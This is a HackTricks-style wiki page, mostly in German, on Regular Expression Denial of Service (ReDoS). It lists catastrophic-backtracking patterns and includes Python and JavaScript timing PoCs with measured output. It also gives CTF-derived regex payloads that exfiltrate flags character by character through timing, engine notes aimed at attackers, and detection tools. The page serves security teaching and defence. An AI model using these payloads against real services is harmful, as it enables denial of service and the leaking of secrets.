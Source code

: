 # Regular expression Denial of Service - ReDoS

{{#include ../banners/hacktricks-training.md}}

# Regular Expression Denial of Service (ReDoS)

Ein **Regular Expression Denial of Service (ReDoS)** tritt auf, wenn jemand Schwächen in der Funktionsweise von regulären Ausdrücken (einer Möglichkeit, Muster in Text zu suchen und abzugleichen) ausnutzt. Manchmal werden reguläre Ausdrücke sehr langsam, besonders wenn der zu verarbeitende Text länger wird. Diese Verlangsamung kann so stark sein, dass sie bei kleinen Zuwächsen der Textlänge sehr schnell zunimmt. Angreifer können dieses Problem ausnutzen, um ein Programm, das reguläre Ausdrücke verwendet, für längere Zeit funktionsunfähig zu machen.

## Der problematische naive Regex‑Algorithmus

**Check the details in [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)**

### Engine behavior and exploitability

- Most popular engines (PCRE, Java `java.util.regex`, Python `re`, JavaScript `RegExp`) use a **backtracking** VM. Crafted inputs that create many overlapping ways to match a subpattern force exponential or high-polynomial backtracking.
- Einige Engines/Libraries sind von vornherein **ReDoS-resilient** konzipiert (kein Backtracking), z. B. **RE2** und Ports, die auf endlichen Automaten basieren und im Worst‑Case lineare Laufzeit bieten; ihr Einsatz für nicht‑vertrauenswürdige Eingaben entfernt die Backtracking‑DoS‑Primitive. Siehe die Referenzen am Ende für Details.

## Bösartige Regexes <a href="#evil-regexes" id="evil-regexes"></a>

Ein bösartiges regular expression pattern ist eines, das bei speziell gestalteter Eingabe **festhängt und einen DoS verursacht**. Bösartige regex‑Patterns enthalten typischerweise Gruppierungen mit Wiederholungen sowie Wiederholung oder Alternation mit Überlappung innerhalb der wiederholten Gruppe. Einige Beispiele für bösartige Patterns sind:

- (a+)+
- ([a-zA-Z]+)\*
- (a|aa)+
- (a|a?)+
- (.*a){x} for x > 10

Alle diese sind gegenüber der Eingabe `aaaaaaaaaaaaaaaaaaaaaaaa!` anfällig.

### Praktische Anleitung zum Erstellen von PoCs

Die meisten katastrophalen Fälle folgen diesem Muster:

- Prefix, das dich in das verwundbare Subpattern bringt (optional).
- Eine lange Folge eines Zeichens, die mehrdeutige Matches innerhalb verschachtelter/überlappender Quantifier verursacht (z. B. viele `a`, `_` oder Leerzeichen).
- Ein abschließendes Zeichen, das das Gesamtergebnis scheitern lässt, sodass die Engine alle Möglichkeiten backtracken muss (oft ein Zeichen, das nicht zum letzten Token passt, wie `!`).

Minimale Beispiele:

- `(a+)+$` vs input `"a"*N + "!"`
- `\w*_*\w*$` vs input `"v" + "_"*N + "!"`

Erhöhe N und beobachte superlineares Wachstum.

#### Schnelles Timing‑Harness (Python)
```python
import re, time
pat = re.compile(r'(\w*_)\w*$')
for n in [2**k for k in range(8, 15)]:
s = 'v' + '_'*n + '!'
t0=time.time(); pat.search(s); dt=time.time()-t0
print(n, f"{dt:.3f}s")
```
## ReDoS Payloads

### String Exfiltration via ReDoS

In einem CTF (or bug bounty) kontrollierst du vielleicht den **Regex, mit dem eine sensible Information (the flag) abgeglichen wird**. Dann kann es nützlich sein, die **Seite einfrieren zu lassen (timeout oder längere Verarbeitungszeit)**, wenn der **Regex übereinstimmt** und **nicht, wenn er es nicht tut**. Auf diese Weise kannst du die Zeichenkette **exfiltrate** **char by char**:

- In [**this post**](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets) findest du diese ReDoS-Regel: `^(?=<flag>)((.*)*)*salt$`
- Beispiel: `^(?=HTB{sOmE_fl§N§)((.*)*)*salt$`
- In [**this writeup**](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html) findest du diese: `<flag>(((((((.*)*)*)*)*)*)*)!`
- In [**this writeup**](https://ctftime.org/writeup/25869) verwendete er: `^(?=${flag_prefix}).*.*.*.*.*.*.*.*!!!!$`

### ReDoS Controlling Input and Regex

Die folgenden **ReDoS**-Beispiele zeigen Fälle, in denen du sowohl das **input** als auch den **regex** kontrollierst:
```javascript
function check_time_regexp(regexp, text) {
var t0 = new Date().getTime()
new RegExp(regexp).test(text)
var t1 = new Date().getTime()
console.log("Regexp " + regexp + " took " + (t1 - t0) + " milliseconds.")
}

// This payloads work because the input has several "a"s
;[
//  "((a+)+)+$",  //Eternal,
//  "(a?){100}$", //Eternal
"(a|a?)+$",
"(\\w*)+$", //Generic
"(a*)+$",
"(.*a){100}$",
"([a-zA-Z]+)*$", //Generic
"(a+)*$",
].forEach((regexp) => check_time_regexp(regexp, "aaaaaaaaaaaaaaaaaaaaaaaaaa!"))

/*
Regexp (a|a?)+$ took 5076 milliseconds.
Regexp (\w*)+$ took 3198 milliseconds.
Regexp (a*)+$ took 3281 milliseconds.
Regexp (.*a){100}$ took 1436 milliseconds.
Regexp ([a-zA-Z]+)*$ took 773 milliseconds.
Regexp (a+)*$ took 723 milliseconds.
*/
```
### Hinweise zu Sprachen/Engines für Angreifer

- JavaScript (browser/Node): Die eingebaute `RegExp` ist eine Backtracking-Engine und häufig ausnutzbar, wenn regex+Eingabe von Angreifern beeinflusst werden.
- Python: `re` verwendet Backtracking. Lange mehrdeutige Läufe plus ein scheiternder Abschluss führen oft zu katastrophalem Backtracking.
- Java: `java.util.regex` verwendet Backtracking. Wenn Sie nur die Eingabe kontrollieren, suchen Sie nach Endpunkten mit komplexen Validatoren; wenn Sie Patterns kontrollieren (z. B. gespeicherte Regeln), ist ReDoS meist trivial.
- Engines wie **RE2/RE2J/RE2JS** oder das **Rust regex** crate sind so konzipiert, katastrophales Backtracking zu vermeiden. Wenn Sie auf diese stoßen, konzentrieren Sie sich auf andere Engpässe (z. B. enorme Patterns) oder finden Sie Komponenten, die weiterhin Backtracking-Engines verwenden.

## Tools

- [https://github.com/doyensec/regexploit](https://github.com/doyensec/regexploit)
- Find vulnerable regexes and auto‑generate evil inputs. Examples:
- `pip install regexploit`
- Analyze one pattern interactively: `regexploit`
- Scan Python/JS code for regexes: `regexploit-py path/` and `regexploit-js path/`
- [https://devina.io/redos-checker](https://devina.io/redos-checker)
- [https://github.com/davisjam/vuln-regex-detector](https://github.com/davisjam/vuln-regex-detector)
- End‑to‑end pipeline to extract regexes from a project, detect vulnerable ones, and validate PoCs in the target language. Useful for hunting through large codebases.
- [https://github.com/tjenkinson/redos-detector](https://github.com/tjenkinson/redos-detector)
- Simple CLI/JS library that reasons about backtracking to report if a pattern is safe.

> Tipp: Wenn Sie nur die Eingabe kontrollieren, generieren Sie Zeichenketten mit sich verdoppelnden Längen (z. B. 2^k Zeichen) und messen Sie die Latenz. Exponentielles Wachstum deutet stark auf einen verwertbaren ReDoS hin.

## Referenzen

- [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)
- [https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)
- [https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html)
- [https://ctftime.org/writeup/25869](https://ctftime.org/writeup/25869)
- SoK (2024): Literatur- und Technik-Review zu Regular Expression Denial of Service (ReDoS) — [https://arxiv.org/abs/2406.11618](https://arxiv.org/abs/2406.11618)
- Why RE2 (linear‑time regex engine) — [https://github.com/google/re2/wiki/WhyRE2](https://github.com/google/re2/wiki/WhyRE2)

{{#include ../banners/hacktricks-training.md}}
